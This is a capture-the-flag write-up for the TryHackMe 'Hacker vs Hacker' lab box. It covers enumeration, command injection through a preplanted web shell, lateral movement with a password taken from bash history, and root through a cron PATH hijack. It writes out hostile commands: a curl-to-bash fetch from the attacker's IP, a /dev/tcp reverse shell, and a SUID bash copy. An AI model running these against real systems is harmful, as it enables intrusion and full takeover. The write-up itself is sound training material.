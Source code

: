 # **[Room](https://tryhackme.com/room/hackervshacker)**

```
export IP=10.10.162.146
```

---

## Enumeration
---
    nmap -sC -sV 10.10.162.146
```
PORT      STATE    SERVICE         VERSION
  
22/tcp    open     ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
  
  | ssh-hostkey: 
  
  |   3072 9f:a6:01:53:92:3a:1d:ba:d7:18:18:5c:0d:8e:92:2c (RSA)
  
  |   256 4b:60:dc:fb:92:a8:6f:fc:74:53:64:c1:8c:bd:de:7c (ECDSA)
  
  |_  256 83:d4:9c:d0:90:36:ce:83:f7:c7:53:30:28:df:c3:d5 (ED25519)
  
80/tcp    open     http            Apache httpd 2.4.41 ((Ubuntu))
  
  |_http-server-header: Apache/2.4.41 (Ubuntu)
  
  |_http-title: RecruitSec: Industry Leading Infosec Recruitment
```
## PORT 80
---
![image](https://user-images.githubusercontent.com/100512862/186632835-e07f11e1-3bcb-483d-be48-71879f2a91cd.png)

When we scroll down, there is an upload form which is for uploading CV. At first I try to upload my own php reverse shell file `shell.php` and it successes.

It redirect us to `/upload.php`

![image](https://user-images.githubusercontent.com/100512862/186634990-71f9fca0-0bc2-4bb9-b4bd-8b26754f797b.png)

By viewing the source code we can see the contents of *upload.php*
![image](https://user-images.githubusercontent.com/100512862/186635253-47c60282-c223-44e0-a91b-21327a579bf8.png)

The file goes to `/cvs` and it accepts `pdf` file. Sweet now I can try to upload my reverse shell again with the name of shell.pdf.php. But the message is still the same as before so I assume we can go to `/cvs` and check if our file is there.

So the first file `shell.php` that I uploaded is not there but the second file `shell.pdf.php` is there. Weird, huh?

To my surprise `shell.pdf.php` was already in there by default. By browsing the page, we got this message.
![image](https://user-images.githubusercontent.com/100512862/186636559-c27bdfb0-8e0f-46c1-baf4-abaae6a300f1.png)

If this is not a php reserver shell, I think that it is for **Command Injection**

Let's bruteforce the parameter.
```
ffuf -c -s -w /usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt -u "http://10.10.162.146/cvs/shell.pdf.php?FUZZ=id" -fw 1
```
And we got `cmd`

![image](https://user-images.githubusercontent.com/100512862/186638471-f6d83a23-7e7f-42ee-8712-45ed2d70ecfc.png)

Let's get a reverse shell.

Since I tried to put some reverse shell script but it didn't work so I decided to just use `curl`

```
10.10.162.146/cvs/shell.pdf.php?cmd=curl $My_IP:8000/rev_shell | bash
```
### My python server tab
![image](https://user-images.githubusercontent.com/100512862/186847311-05265670-92f5-4118-97f1-26d212a6e7f8.png)

### My netcat tab
![image](https://user-images.githubusercontent.com/100512862/186847384-bb87b657-461a-40cc-a434-f605c96d4da8.png)

### My reverse shell script
![image](https://user-images.githubusercontent.com/100512862/186847881-499ed17c-9c9e-43e9-99ac-fcd066c4d153.png)

After we enter that url with the curl command, we will get a shell on the netcat listener that we have set up as user **www-data**

So this is what inside the shell.pdf.php that is already on the target machine

![image](https://user-images.githubusercontent.com/100512862/186848330-ee2edf8c-84c8-49a1-98c8-6550d321c1d9.png)

## Lateral Movement
---

By checking the home directory, we found a user **lachlan** which contains a *user.txt*.
![image](https://user-images.githubusercontent.com/100512862/186849081-704e199f-ee94-4181-ab90-c97e48a50e49.png)

By looking through every file in **lachlan** directory, we see that `.bash_history` contains something which looks like a password for the user **lachlan**

![image](https://user-images.githubusercontent.com/100512862/186850089-1db482bf-fa37-4f3d-966d-09dd2f2f1f2f.png)

### First Case

Let's `su` into **lachlan**

![image](https://user-images.githubusercontent.com/100512862/186850409-c96941ab-e749-4cbd-aa7f-152d0c6f3c85.png)

### Second Case

We can also try to ssh in with the password that we got, but we get this message when we logged in

![image](https://user-images.githubusercontent.com/100512862/186850941-d0e8f874-e6cb-4a62-8912-6fe6607c4527.png)

This is because there is some cron that keep sending this message and kill our shell. Let's check what that cron does with the shell that we just `su` in.

![image](https://user-images.githubusercontent.com/100512862/186851293-57be9439-0d93-47ce-8079-7fd00e448b23.png)

We notice a **PATH** that will come in handy later on, but for now let's analyze the script.

|Command|Explanation|
|-------|-----------|
|`/bin/sleep`|this tell the script to rest for some time|
|`for f in '/bin/ls /dev/pts'`|   this take any session that is in **/dev/pts** and put it into f|
|`do /usr/bin/echo nope > /dev/pts/$f`|   this use **echo** to spit out *nope* to our shell when we log in because whenever we log in through ssh, our session is store in */dev/pts*|
|`pkill -9 -t pts/$f`|    this is the thing that keeps killing our shell through ssh|

So what can we do bypass this cron from killing our session? In ssh man page, `-T:Disable pseudo-terminal allocation`

```
ssh lachlan@$IP -T
```

![image](https://user-images.githubusercontent.com/100512862/186853786-c87719fe-2046-4954-ac42-6cd74a9a4ca7.png)

>w is to check who is on the machine with pty

Our shell don't get kill anymore.

## Privilege Escalation

After running **linpeas**, we see there is an unusual path

![image](https://user-images.githubusercontent.com/100512862/186854705-421aa1f7-c2aa-4780-8900-bd81e9fbd4ba.png)

Let's check this directory

![image](https://user-images.githubusercontent.com/100512862/186854880-a4a24338-12ed-479c-9ae3-0536cad8cc23.png)

We see a **backup.sh** file that is also run in `/etc/cron.d/persistence`

![image](https://user-images.githubusercontent.com/100512862/186855124-f126ff80-8572-4fd5-bd83-5988636330fe.png)

>I don't know if this is a rabbit hole or not, but I can't get any reverse shell to work with that **backup.sh**

But look at the path of every binary that keep killing our shell. One of them doesn't have *absolute* path which is `pkill`. So we can try to exploit it by manipulate the path that pkill will execute with cron

### First Case

We can create a reverse shell with the name **pkill** in `/home/lachlan/bin`

```
echo "bash -c 'bash -i >& /dev/tcp/$My_IP/1234 0>&1'" > pkill; chmod +x pkill
```

On my machine with the netcat listener

![image](https://user-images.githubusercontent.com/100512862/186857156-3ef6ccfd-0db5-4f53-b249-f15ab25a6ef3.png)

### Second Case

In other way, we can just escalate to root without the need of reverse shell. We want cron to execute the fake `pkill` that will copy `/bin/bash` which is owned by root to `/home/lachlan/bin` so that we can execute that `bash` file with root privilege

```
echo "cp /bin/bash /home/lachlan/bin/bash && chmod 4755 /home/lachlan/bin/bash" > pkill; chmod 777 pkill
```
>We copy bash to /lachlan/bin with the name **bash** *not pkill* and give it SUID permission and also executable permission and we put it in the fake **pkill** file that we just created and we give the **pkill** file full permission

After some time, a bash file that we want is copied to `/home/lachlan/bin` with **root** as the owner and executable by everyone

![image](https://user-images.githubusercontent.com/100512862/186859132-e3ba2bff-475f-4432-b465-47e83d1207a9.png)

So we can now use that **bash** file to get root just by typing

```
./bash -p
```

![image](https://user-images.githubusercontent.com/100512862/186859361-2db17de8-a538-450b-b70c-b1a43ebd3316.png)

Finally, let's get our root flag

![image](https://user-images.githubusercontent.com/100512862/186859494-e53c63a2-0093-4504-848b-a75c0f4fe6dc.png)


